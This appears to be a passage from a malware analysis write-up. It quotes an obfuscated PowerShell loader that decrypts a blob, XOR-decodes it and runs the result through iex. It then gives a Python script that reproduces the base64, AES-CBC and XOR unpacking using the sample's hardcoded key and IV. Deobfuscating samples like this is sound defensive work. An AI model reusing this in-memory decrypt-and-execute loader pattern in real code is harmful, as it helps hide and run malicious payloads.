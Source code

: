 ```
$jeFIav = New-Object System.IO.MemoryStream
$q3gnLL = New-Object System.Security.Cryptography.CryptoStream($jeFIav, $HOfuc, [System.Security.Cryptography.CryptoStreamMode]::Write)
$q3gnLL.Write($skiUV, 0, $skiUV.Length)
$q3gnLL.FlushFinalBlock()
$K7f50 = $jeFIav.ToArray()

$H52LE = [byte[]](211, 187, 206, 100, 159);
$qPA7L = 0;
$N2E6N = $K7f50 | ForEach-Object {
$_ -bxor $H52LE[$qPA7L++];
if ($qPA7L -ge $H52LE.Length) {
$qPA7L = 0
}
}

[System.Text.Encoding]::ASCII.GetString($N2E6N) | iex
```

Lets again create another python script to do this for us:

```
import base64
from Crypto.Cipher import AES

def decode_powershell_style(encoded_au_jky_base64: str) -> str:
    # base64 decode do $AUJKY
    vclPn = base64.b64decode(encoded_au_jky_base64)

    # decode to ASCII and decode base64 again
    ascii_str = vclPn.decode('ascii')
    xoL70 = base64.b64decode(ascii_str)

    # Replacing caracteres
    decoded_str = xoL70.decode('ascii')
    decoded_str = decoded_str.replace('%', 'd').replace('`$', 'a').replace('!', 'b').replace('@', 'B')

    # base64 decode 
    skiUV = base64.b64decode(decoded_str)

    # definy IV key para AES
    kqB9Mm = base64.b64decode('JgtrU4CqeEdQRIkU06d+iw==')
    TyZDj = base64.b64decode('07vOZJ8e04PG22qE6cVEDciVdTaI6E1J8NwudfkswXA=')

    # config AES CBC PKCS7
    cipher = AES.new(TyZDj, AES.MODE_CBC, iv=kqB9Mm)

    # decrypt
    decrypted = cipher.decrypt(skiUV)

    # padding PKCS7
    pad_len = decrypted[-1]
    decrypted = decrypted[:-pad_len]

    # XOR byte to byte
    xor_key = bytes([211, 187, 206, 100, 159])
    xor_result = bytearray()
    for i, b in enumerate(decrypted):
        xor_result.append(b ^ xor_key[i % len(xor_key)])

    # convert to ASCII
    return xor_result.decode('ascii', errors='replace')

```